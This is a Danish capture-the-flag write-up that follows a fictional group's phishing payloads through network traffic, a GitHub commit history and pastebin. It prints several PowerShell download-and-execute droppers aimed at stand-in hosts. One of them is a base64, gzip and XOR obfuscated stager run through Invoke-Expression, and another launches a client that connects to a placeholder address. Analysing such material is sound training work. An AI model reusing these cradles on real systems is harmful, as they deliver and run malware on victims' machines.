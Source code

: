 # Writeup

Opgaveteksten beder os om at vurdere, hvor selve payloadet i angrebet er hentet fra, og om vi kan finde andre payloads.

Har man løst [Nisseware: Phishing](../nisseware-phishing/), har man sandsynligvis fundet det relevante link nu, men opgaven er lavet, så den kan løses separat med et kig på netværkstrafikken.

Åbnes `network_logs.pcapng` ses som noget af det første en stream af HTTP-trafik:

![Screenshot af HTTP trafik](img/http.png)

Her ses, at der er lavet et `GET`-request mod http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md - har man løst phishingopgaven, vil man tydeligt kunne genkende dette som den URL, payloadet hentes ned fra, før det eksekveres. Vi er her heldige, at `N1ss3b4nd3n` er kommet til at bruge `HTTP` og ikke `HTTPS` - dvs. vi kan se den fulde URL og får blot et `301 - Moved Permanently` svar fra `GitHub`, der automatisk redirecter til `HTTPS`-udgaven, hvorefter den fulde sti og indholdet af requests og responses er krypteret.

Tilgår vi linket, ser vi, at det bare er en rå tekstfil, der indeholder linket https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Det virker dog ikke som en helt gyldig URL - men det er et godt spor! Fjerner vi `/raw` fra URLen, kan vi tilgå scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.
Her ses at payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - det kunne da være interessant at se, hvad de ellers har af bins: https://pastebin.com/u/N1ss3b4nd3n.

Der ligger faktisk kun en enkelt public bin: https://pastebin.com/hQcmjWHL. Den ser dog rigtig interessant ud:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Det virker som et rigtig godt spor at lave OSINT på, og efter denne opgave kan man naturligt fortsætte med [Nisseware: OSINT](../nisseware-osint/).
Men inden da skal vi stadig løse den stillede opgave: At finde deres payloadmekanisme og lede efter andre payloads.

Vi har adgang til en fil fra et `GitHub` repo - måske vi kan tilgå gruppens `GitHub` direkte!
Vi prøver at gå til https://github.com/N1ss3b4nd3n og ser, vi fint kan se deres profil. Der er umiddelbart kun et enkelt synligt repository, nemlig det, der hostede payloadlinket:

https://github.com/N1ss3b4nd3n/N1ss3b4nd3n

Her ser vi dog, der står `10 Commits`, så det virker relevant at tage et kig på!

![Screenshot af GitHub commit history](img/commits.png)

Vi tjekker ændringen i dem alle og ser, at det er en lang række links, bl.a. flere til pastebin og en række umiddelbart sketchy hostnames:

```
https://pastebin.com/raw/P6cUKLkV
https://pastebin.com/raw/pNeMxgSM
https://pastebin.com/raw/MbP0cAfn
https://pastebin.com/raw/CiZTV3BA
https://danger-site.hacker/mal.ps1
https://pastebin.com/raw/xNkVzDGn
https://nothing-suspicious-here.jul/script.ps1
https://pastebin.com/raw/GXvNcLqw
https://pastebin.com/raw/GdyerNX8
```

Noget tyder altså på, at `N1ss3b4nd3n` hoster deres payloads rundt omkring, bl.a. på pastebin, og opdaterer dette repo, hver gang, de vil pege på et nyt script i stedet, så de på den måde kan holde URLen hardcoded i deres phishingangreb. Så må man selv vurdere, hvor gennemtænkt det er, at anvende et versionsstyringsværktøj med commit history.

De første to pastebin sider er nede igen, så der har gruppen nok fjernet deres payload, eller det kan være blevet flagged og fjernet af pastebin.
De to non-pastebin URLs kan heller ikke tilgås. Det efterlader os med fem scripts, der bør kigges igennem, og vi ser på dem i rækkefølge:

```ps1
$fileUrl = "http://134.34.f4k3.1337/download.exe"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Det første script downloader tilsyneladende en `exe`-fil fra et malicious site, gemmer det lokalt på maskinen og eksekverer det.
URLen kan dog ikke tilgås, og vi kigger videre på næste script:

```ps1
[Byte[]]$AssemblyBytes = [System.Text.Encoding]::UTF8.GetBytes("H4sIABsdUmUA/y3Oa0uzUAAAYC1ZRRDhC0u87OLqaE6RM8YEx8KgKas+7OZxc14m1lbx6srID8PVXx9Bv+B53q5cFf4zPPIsjRZarXNc5bAi47LVF4tKs11y8L7+4Hxn2tRsHkgLZ+ryCerCpRnOUe17h617aOAdNTJDPO2UBsHhVvj/ecmX7vDbH2V6kz+WJ4HbVKz4dVXY/QpenwOtRcYPhg6ChG6YlWckY6EERVMvD3kJKbWXPOz7vDwWSDWw6QtRCgHeDliSOQFWSl2PRqZbV+iEEMwZSaXRRuhCz/PH0u/qidEjS4VWSrT9iWP0YoaArWrhD1XNlfUNu5xYIKbinEZ/xrZxb5/vASPNHMIDAQAA")

# Base64 decode bytes
$decodedBytes = [System.Convert]::FromBase64String([System.Text.Encoding]::UTF8.GetString($AssemblyBytes))
$stream = New-Object System.IO.MemoryStream(,$decodedBytes)
$gzip = New-Object System.IO.Compression.GzipStream($stream, [System.IO.Compression.CompressionMode]::Decompress)

# Gzip decompress
$buffer = New-Object byte[](1024)
$ms = New-Object System.IO.MemoryStream
while($true) {
    $read = $gzip.Read($buffer, 0, 1024)
    if ($read -le 0) { break }
    $ms.Write($buffer, 0, $read)
}
$script = $ms.ToArray()
$ms.Close()
$gzip.Close()
$stream.Close()

# XOR decode
$key = [System.Text.Encoding]::UTF8.GetBytes("NC3CTF2023")
for ($i = 0; $i -lt $script.Length; $i++) {
    $script[$i] = $script[$i] -bxor $key[$i % $key.Length]
}

# Invoke result as PS script
Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))
```

Dette ser noget mere interessant ud! Vi har umiddelbart en base64 encoded streng, der decodes og herefter dekomprimeres med `gzip`.
Resultatet XOR decryptes med nøglen `"NC3CTF2023"` og sidst eksekveres det som en kommando. Vi kan køre de samme commands i PowerShell og igen udskifter `Invoke-Expression` med `Write-Host` for at printe kommandoen i stedet for at eksekvere den. Alternativt kan [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Gunzip()XOR(%7B'option':'UTF8','string':'NC3CTF2023'%7D,'Standard',false)) anvendes med lidt større sikkerhed. Her skal blot bruges `From Base64`, `Gunzip` og sidst `XOR` med `Key` sat til `NC3CTF2023` i `UTF8` mode. Resultatet bliver uanset metoden:

```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Altså igen et lignende payload, der henter en executable fra en URL og eksekverer den.
Mest interessant er selvfølgelig den URL parameter, der er sat til flaget: `token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`.

Sådan! Endnu en opgave klaret! Men vi bør lige færdiggøre analysen og kigge de resterende tre scripts igennem:

```ps1
(New-Object System.Net.WebClient).DownloadFile("https://888.0.24.12/script.bat", (Get-Location).Path + "\download.bat")
Invoke-Item (Get-Location).Path + "\download.bat"
```

Script tre er ikke umiddelbart interessant, der hentes og eksekveres en `bat`-fil, fra en utilgængelig URL.
Det allersidste script er det, vi allerede så, da vi først fandt linket i phishingopgaven eller netværkstrafikken, men det næstsidste er nyt:

```ps1
(New-Object System.Net.WebClient).DownloadFile("http://julebal-i-nisseland.jul/client.exe", (Get-Location).Path + "\client.exe")
$path = ((Get-Location).Path + "\client.exe")
$args = "-addr", "n1ss3b4nd3n.jul:8080"
Invoke-Expression "$path $args"
```

Dette script henter filen `client.exe` og eksekverer følgende kommando:

```console
client.exe -addr n1ss3b4nd3n.jul:8080
```

Potentielt mere interessant end de foregående, men vi kan ikke tilgå nogle af de URLs.
Er man lidt opmærksom, vil man dog kunne se i commit history, at dette script var aktivt fra 23. november 12:10 til 28. november 08:18, og fra netværkstrafikken ses at linket blev tilgået 28. november 02:34 - det er altså dette payload, der blev hentet ned på Alfs computer og eksekveret.

Dette er interessant for næste opgave og vil være en stor hjælp til [Nisseware: Exfiltration](../nisseware-exfiltration/).

Vi har altså nu flere spor at gå efter og kan fortsætte i mindst to retninger:

- Pastebin medlemslite: [Nisseware: OSINT](../nisseware-osint/)
- Faktisk eksekveret payload: [Nisseware: Exfiltration](../nisseware-exfiltration/)

**Flag**

`NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`
